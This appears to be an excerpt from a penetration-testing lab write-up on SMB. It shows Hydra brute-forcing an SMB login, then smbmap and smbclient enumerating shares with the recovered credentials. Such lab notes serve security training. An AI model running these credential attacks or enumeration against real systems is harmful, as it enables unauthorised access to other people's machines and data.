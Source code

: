 ```bash
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking smb://192.174.58.3:445/
[445][smb] host: 192.174.58.3   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
```

![hydra](.gitbook/assets/image-20230215102856704.png)

> 📌 admin's password is `password1`

- Find `smb shares` using found credentials

```bash
smbmap -u admin -p password1 -H 192.174.58.3
```

```bash
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.174.58.3...
[+] IP: 192.174.58.3:445        Name: target-1                                          
   Disk     Permissions
   ----     -----------
   shawn    READ, WRITE
   nancy    READ ONLY
   admin    READ, WRITE
   IPC$     NO ACCESS
```

> 📌 *Read-only* share is `nancy`

```bash
smbclient -L 192.28.157.3 -U jane
# Use "abc123" password
```

![](.gitbook/assets/image-20230215103352757.png)

